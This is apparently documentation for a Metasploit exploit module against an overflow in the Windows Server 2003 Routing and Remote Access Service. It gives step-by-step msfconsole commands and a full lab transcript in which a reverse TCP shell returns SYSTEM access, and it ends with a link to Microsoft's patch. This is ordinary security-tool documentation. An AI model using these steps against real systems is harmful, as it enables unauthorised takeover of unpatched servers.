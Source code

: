 ## Vulnerable Application

This module exploits an overflow in the Windows Routing and Remote
Access Service (RRAS) to execute code as SYSTEM.

The RRAS DCERPC endpoint is accessible to unauthenticated users via
SMBv1 browser named pipe on Windows Server 2003 and Windows XP hosts;
however, this module targets Windows Server 2003 only.

Since the service is hosted inside `svchost.exe`, a failed exploit
attempt can cause other system services to fail as well.
    
The module has been successfully tested on:

* Windows Server 2003 SP0 (x86)
* Windows Server 2003 SP1 (x86)
* Windows Server 2003 SP2 (x86)
* Windows Server 2003 R2 SP2 (x86)

## Verification Steps

Windows:

* Launch `services.msc`
* Start `Routing and Remote Access Service`

Note that the service may take up to one minute to start.

Metasploit:

1. Start msfconsole
1. Do: `use exploit/windows/smb/smb_rras_erraticgopher`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a `SYSTEM` shell.

## Options

### SMBPIPE

The pipe name to use (default: `browser`)

## Scenarios

### Windows Server 2003 R2 SP2 (x86)

```
msf6 > use exploit/windows/smb/smb_rras_erraticgopher 
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/smb/smb_rras_erraticgopher) > set rhosts 172.16.191.171
rhosts => 172.16.191.171
msf6 exploit(windows/smb/smb_rras_erraticgopher) > check
[*] 172.16.191.171:445 - The service is running, but could not be validated. RRAS enabled and accessible.
msf6 exploit(windows/smb/smb_rras_erraticgopher) > set lhost 172.16.191.192 
lhost => 172.16.191.192
msf6 exploit(windows/smb/smb_rras_erraticgopher) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.171:445 - Binding to 8f09f000-b7ed-11ce-bbd2-00001a181cad:0.0@ncacn_np:172.16.191.171[\browser] ...
[*] 172.16.191.171:445 - Bound to 8f09f000-b7ed-11ce-bbd2-00001a181cad:0.0@ncacn_np:172.16.191.171[\browser] ...
[*] 172.16.191.171:445 - Selecting a target ...
[*] 172.16.191.171:445 - Fingerprint: Windows 2003 R2 (Service Pack 2) - Language: Unknown
[*] 172.16.191.171:445 - Could not detect the language pack, defaulting to English
[*] 172.16.191.171:445 - Using target: Windows Server 2003 R2 SP2 (English) (NX)
[*] 172.16.191.171:445 - Calling RRAS MIBEntryGet with payload (1876 bytes) ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 172.16.191.171
[*] Command shell session 1 opened (172.16.191.192:4444 -> 172.16.191.171:1029) at 2021-03-02 18:57:40 -0500

Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

## Mitigation

Microsoft have released KB4024323 for Windows 2003 and Windows XP:

* https://support.microsoft.com/en-us/topic/microsoft-security-advisory-4025685-guidance-for-older-platforms-june-13-2017-05151e8a-bd7f-f769-43df-38d2c24f96cd

